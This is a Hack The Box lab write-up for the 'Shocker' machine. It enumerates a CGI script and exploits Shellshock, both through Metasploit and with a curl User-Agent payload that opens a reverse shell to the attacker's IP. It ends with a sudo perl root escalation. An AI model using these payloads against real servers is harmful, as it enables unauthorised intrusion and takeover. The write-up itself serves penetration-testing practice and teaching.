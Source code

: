 ```yaml
---
title:     "Hack The Box - Shocker"
tags: [linux,easy,sudo,shellshock]
categories: HackTheBox
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/1.png)

We are going to pwn Shocker from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/108>


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%), Linux 4.8 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Check whats in the webpage<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/2.png)

Like always lets try bruteforcing the webpage to find any interesting page.

## Gobuster Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/02 21:00:28 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2019/12/02 21:04:36 Finished
===============================================================
```
> /cgi-bin  is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website. 

## Checking ShellShock Exploit 

May be if we found any scripts available on ``/cgi-bin/`` we can do ``shellshock`` exploit as the name of the box ``Shocker`` gives us a clue.

Lets bruteforce `` /cgi-bin/ `` , I gave extensions as ``sh,py,pl`` to check for any scripts.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/3.png)<br/>
My guess is correct there is an ``user.sh`` script available

For more info
> https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/

## Getting Shell

There is a module for shellshock exploit, Lets fire up the metasploit

> use exploit/multi/http/apache_mod_cgi_bash_env_exec

We need to give the location of the script in ``TARGETURI`` 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/4.png)

Lets check first whether it is vulnerable or not!
It is Vulnerable so run this and we can get an shell.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/5.png)

We have an user called ``shelly``

## Privilege Escaltion

I uploaded my Linux Enumeration Script and found that ``perl`` can run as root without password.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/6.png)

Lets check GTFOBins

>https://gtfobins.github.io/gtfobins/perl/

``sudo perl -e 'exec "/bin/sh";``

Running this command will make us root

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/7.png)

We got ROOT ~

## Method 2 (Without Metasploit)

We can get shell without using metasploit

Reference:
>https://medium.com/@hackbotone/shellshock-attack-on-a-remote-web-server-d9124f4a0af3

So All we need to do is run this command on our machine and listening on another terminal

> curl -A '() { :; }; /bin/bash -i > /dev/tcp/10.10.14.17/9000 0<&1 2>&1' http://10.10.10.56/cgi-bin/user.sh

It is injecting on the `` User-Agent `` on the request header.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/8.png)

WE got ``shelly`` and Privilege Escalation is as same as before.